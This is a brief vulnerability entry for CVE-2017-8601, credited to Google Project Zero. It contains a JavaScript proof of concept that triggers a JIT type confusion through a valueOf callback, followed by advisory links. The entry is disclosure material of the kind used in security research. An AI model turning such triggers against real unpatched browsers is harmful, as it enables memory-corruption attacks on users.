 # CVE-2017-8601

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
'use strict';

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    let a = [1.1, 2.2];
    let b = new Uint32Array(100);

    for (let i = 0; i < 0x1000; i++)
        func(a, b, {});  // <<---------- REPLACED

    func(a, b, {valueOf: () => {
        a[0] = {};

        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8601)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1316)

